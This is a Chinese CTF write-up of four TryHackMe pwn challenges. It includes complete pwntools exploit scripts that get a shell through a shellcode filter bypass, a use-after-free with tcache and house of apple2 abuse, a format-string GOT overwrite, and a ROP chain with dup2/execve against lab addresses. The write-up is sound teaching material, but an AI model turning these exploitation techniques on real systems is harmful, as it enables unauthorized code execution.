# THM：Tryhackmetwo WP-先知社区

> **来源**: https://xz.aliyun.com/news/16788  
> **文章ID**: 16788

---

## TryExecMe2

先使用IDA反编译查看程序逻辑



会开辟一段可读可写可执行的区域，然后向其中读入0x80字节长度字符，之后会经过`forbidden`函数检查



限制了直接进行系统调用，即`syscall` `sysenter` `int 0x80`，但是这样的限制是十分好绕过的，我们只需要通过异或生成syscall构造read再次写入可以调用`sysytem("/bin/sh")`的shellcode即可

### 构造read

```
shellcode = asm("""
mov rdx, 0x100
mov r15, rdi
xor rdi, rdi
mov rsi, r15
mov cx, 0x454f
xor cx, 0x4040
mov [r15+0x1e], cx
""")
```



此时我们会再向0xCAFE0000位置读入0x100的字符，而且此时没有限制

### 再次写入shellcode

```
payload = b"\x90"*0x25+asm(shellcraft.sh())
s(payload)
```

`\x90`是nop用于占位，因为执行完read会接着执行0xCAFE0020位置的语句



最后成功拿到shell



### 完整exp

```
from pwn import *
from pwncli import *
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def li(a):
    print(hex(a))
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
# def get_sb():
#     return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug():
    gdb.attach(p)

context(os='linux',arch='amd64',log_level='debug')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# elf=ELF('./pwn')
# p = process('./pwn')
# gdb.attach(p,'b *$rebase(0x1485)')
p = remote("10.10.131.135",5002)
shellcode = asm("""
mov rdx, 0x100
mov r15, rdi
xor rdi, rdi
mov rsi, r15
mov cx, 0x454f
xor cx, 0x4040
mov [r15+0x1e], cx
""")
s(shellcode)
pause()
payload = b"\x90"*0x25+asm(shellcraft.sh())
s(payload)
inter()
```

### shellcraft直接生成

当然，光依靠手搓shellcode还是太麻烦了，我通过翻看pwntools的文档，pwntools给了大家一个十分好用的方法，直接使用encode模块可以直接指定要避免的字符，大大减少了自己手搓的时间，帮助大家更快速的拿下一些

```
# 生成shell
shellcode = asm(shellcraft.sh())
# 给出要避免的字符
encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")
```

# TryaNote

一道十分经典的菜单题



在delete函数指针free后未置0，我们可以利用此漏洞通过show来泄露libc和堆地址



2.35的libc，移除了我们在之前版本利用的各种hook，但是我们可以通过劫持tcache\_struct来进行任意地址写，改掉IO\_list\_all使用house of apple2获取shell

### 泄露libc和堆地址

```
add(0x420,b"a")
add(0x100,b"a")
add(0x100,b"a")
add(0x100,b"a")
add(0x300,b"a")
delete(0)
show(0)
libc_base = get_addr() - 2202848
li(libc_base)
delete(1)
show(1)
heap_base = u64(p.recv(5).ljust(8, b'\x00'))
heap_base = heap_base << 12
li(heap_base)
```

因为并没有限制我们申请的堆块大小，我们就申请一个大于0x400大小的堆块，这样可以在free后直接进入unsortedbin中，此时该堆块fd位置就会被写上libc地址，show即可得到，再free一下1号堆块，这样它会被放入tcache中，show即可获取堆地址，注意要左移12位，具体参考tcache在2.35的变化，自行搜索

### 劫持tcache\_struct

```
delete(2)
_IO_list_all=libc_base+libc.sym['_IO_list_all']
setcontext=libc_base + libc.sym['setcontext']
_IO_wfile_jumps =libc_base+libc.sym['_IO_wfile_jumps']
fake_io = heap_base+0x7e0
fff = IO_FILE_plus_struct()
payload = fff.house_of_apple2_execmd_when_exit(fake_io, libc_base+libc.sym["_IO_wfile_jumps"], libc_base+libc.sym["system"])
edit(2,p64(((heap_base+0x7e0)>>12)^heap_base))
add(0x100,p64(0))
add(0x100,p64(0)+p64(0x290)+b"\x07\x00"*0x58+b"\x00\x00"*8+p64(_IO_list_all)+p64(heap_base+0x7e0))
```

接下来再次释放2号堆块，这样tcache中0x110处就会出现链表，我们修改2号的fd指向tcache\_struct即可达到任意地址写的目的，关于为什么要写`b"\x07\x00"*0x58+b"\x00\x00"*8+p64(_IO_list_all)+p64(heap_base+0x7e0))`，请参考tcache\_struct的结构体，总之，在我们下次申请0x90大小的堆块时，我们会申请到\_IO\_list\_all

### house\_of\_apple2

```
add(0x90,p64(heap_base+0x7e0))
edit(2,payload)
debug()
sla(b'>>', b'0')
```

我们将\_IO\_list\_all写入我们伪造好的fake\_file的堆地址，这样我们可以就可以执行system("/bin/sh")，利用这个方法有前提是可以正常退出或者exit退出来刷新IO流，具体参考 [house of apple](https://bbs.kanxue.com/thread-273832.htm)

### 完整exp

```
from pwn import *
from pwncli import *
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def li(a):
    print(hex(a))
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug():
    gdb.attach(p)

context(os='linux',arch='amd64',log_level='debug')
libc = ELF('./libc.so.6')
elf=ELF('./pwn')
p = process('./pwn')
def add(size,content):
    sla(b'>>', b'1')
    sla(b'size:
', str(size).encode())
    sa(b'data:
', content)
def delete(index):
    sla(b'>>', b'4')
    sla(b'index:
', str(index).encode())
def edit(index, content):
    sla(b'>>', b'3')
    sla(b'index:
', str(index).encode())
    sa(b'data:
', content)
def show(index):
    sla(b'>>', b'2')
    sla(b'index:
', str(index).encode())
def win(idx,content):
    sla(b'>>', b'5')
    sla(b'index:
', str(idx).encode())
    sla(b'data:
', content)

add(0x420,b"a")
add(0x100,b"a")
add(0x100,b"a")
add(0x100,b"a")
add(0x300,b"a")
delete(0)
show(0)
libc_base = get_addr() - 2202848
li(libc_base)
delete(1)
show(1)
heap_base = u64(p.recv(5).ljust(8, b'\x00'))
heap_base = heap_base << 12
li(heap_base)

delete(2)
_IO_list_all=libc_base+libc.sym['_IO_list_all']
setcontext=libc_base + libc.sym['setcontext']
_IO_wfile_jumps =libc_base+libc.sym['_IO_wfile_jumps']
fake_io = heap_base+0x7e0
fff = IO_FILE_plus_struct()
payload = fff.house_of_apple2_execmd_when_exit(fake_io, libc_base+libc.sym["_IO_wfile_jumps"], libc_base+libc.sym["system"])
edit(2,p64(((heap_base+0x7e0)>>12)^heap_base))
add(0x100,p64(0))
add(0x100,p64(0)+p64(0x290)+b"\x07\x00"*0x58+b"\x00\x00"*8+p64(_IO_list_all)+p64(heap_base+0x7e0))

add(0x90,p64(heap_base+0x7e0))
edit(2,payload)
debug()
sla(b'>>', b'0')

inter()
```

# NotSpecified2

格式化字符串漏洞，got表可以写，而且执行一次后会用过exit退出，因此修改exit的got表为\_start进行无限格式化字符串



之后再通过格式化字符串拿到libc基地址，最终修改exit的got表为one\_gadget拿到shell

### 劫持exit的got表

```
payload = fmtstr_payload(6,{0x404038:0x4010D0})
sl(payload)
```

### 泄露libc

```
payload = b"%73$p"
sl(payload)
rl(b"Thanks ")
libc_base = int(p.recv(14), 16) - 171408
ogg = libc_base + 0xebcf5
```

### 完整exp

```
from pwn import *
from pwncli import *
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def li(a):
    print(hex(a))
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
# def get_sb():
#     return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug():
    gdb.attach(p)

context(os='linux',arch='amd64',log_level='debug')
# libc = ELF('./libc.so.6')
# elf=ELF('./pwn')
# p = process('./pwn')
# gdb.attach(p,'b *0x4012FD')
p = remote("10.10.187.89",5000)
rl(b"username:")
payload = fmtstr_payload(6,{0x404038:0x4010D0})
sl(payload)
rl(b"username:")
payload = b"%73$p"
sl(payload)
rl(b"Thanks ")
libc_base = int(p.recv(14), 16) - 171408
ogg = libc_base + 0xebcf5
payload = fmtstr_payload(6,{0x404038:ogg})
rl(b"username:")
sl(payload)
inter()
```

# SlowServer

我们可以看到我们正在处理一个服务器，因为它监听 `0.0.0.0:5555` 并等待连接。收到连接后，它从客户端读取数据，并调用 `handle_request` 函数，同时传递套接字文件描述符和接收到的数据。



检查 `handle_request` 函数，我们可以看到它首先使用 `strtok` 函数，并将分隔符字符设置为 `\` 。它将第一个保存到 `s1` ，然后另一个标记保存到 `s3`，通过观察可以知道s1是`method`，s3应该是`URI`，之后，根据方法，它调用其他函数中的一个



观察发现GET方法没有什么漏洞

DEBUG方法存在格式化字符串



POST方法存在栈溢出



我们的思路很明了，就是通过格式化字符串泄露地址，因为程序开启了PIE保护，所以我们需要泄露基地址，然后拿shell

注意：远程与本地的栈可能会存在差异，需要自己尝试及猜测，使用ubuntu22.04时发现与远程十分相似，建议使用ubuntu22.04调试

### 泄露基地址

```
p = remote("10.10.62.203", 5555)
payload = b"DEBUG %136$p 
"
```

### 套接字交互shell

如果我们直接去执行`execve("/bin/sh\0", 0, 0)`，我们是拿不到一个交互式shell的，我们可以通过使用 `dup2(4, 0)` 和 `dup2(4, 1)` 系统调用，将我们的套接字（4）的文件描述符与标准输入（0）和输出（1）的文件描述符进行复制，以解决这个问题。

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p = remote("127.0.0.1", 5555)
payload = b"DEBUG %3$p"
p.sendline(payload)
resp = int(p.recv(14), 16)
binary_base = resp - 8320
print(hex(binary_base))
p.close()
# 0x000000000000180b : pop rax ; ret
# 0x0000000000001816 : pop rdi ; xor rdi, rbp ; ret
# 0x0000000000001811 : pop rsi ; ret
# 0x000000000000180d : pop rdx ; pop r12 ; ret
# 0x0000000000001807 : push rbp ; mov rbp, rsp ; pop rax ; ret
# 0x0000000000001813 : syscall

pop_rax = binary_base + 0x180b
pop_rdi_xor_rdi_rbp = binary_base + 0x1816
pop_rsi = binary_base + 0x1811
pop_rdx_pop_r12 = binary_base + 0x180d
push_rbp_mov_rbp_rsp_pop_rax = binary_base + 0x1807
syscall = binary_base + 0x1813
execve = 59
dup2 = 33

payload = b"POST "
payload += b"A" * 16
payload += b"/bin/sh\x00"

# dup2(4, 0)
payload += p64(pop_rdi_xor_rdi_rbp)
payload += b"+bin/sh\x00"
payload += p64(pop_rax)
payload += p64(dup2)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(syscall)

# dup2(4, 1)
payload += p64(pop_rdi_xor_rdi_rbp)
payload += b"+bin/sh\x00"
payload += p64(pop_rax)
payload += p64(dup2)
payload += p64(pop_rsi)
payload += p64(1)
payload += p64(syscall)

# execve("/bin/sh\0", 0, 0)
payload += p64(push_rbp_mov_rbp_rsp_pop_rax)
payload += p64(pop_rdi_xor_rdi_rbp)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(execve)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_pop_r12)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)
payload += b" 
"
s = remote("127.0.0.1", 5555)
s.sendline(payload)
s.sendline(b"")
s.interactive("$ ")
s.close()
```



当然了，我们的目标是要去读出来flag，使用orw也是可以的

### 关于如何速找到远程基地址

编写一个简单的 Python 脚本来fuzz一下，当看到远程末三位和本地末三位相同且不为0x70-0x7f开头即可确定

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
for i in range(1, 180, 3):
    r1 = remote("10.10.62.203", 5555)
    r2 = remote("127.0.0.1", 5555)
    pay1 = f"DEBUG %{i}$p.%{i+1}$p.%{i+2}$p 
".encode()
    r1.sendline(pay1)
    r2.sendline(pay1)
    print(f"%{i}$p.%{i+1}$p.%{i+2}$p")
    resp = r1.recv()
    print(resp)
    resp2 = r2.recv()
    print(resp2)
    r1.close()
    r2.close()
```
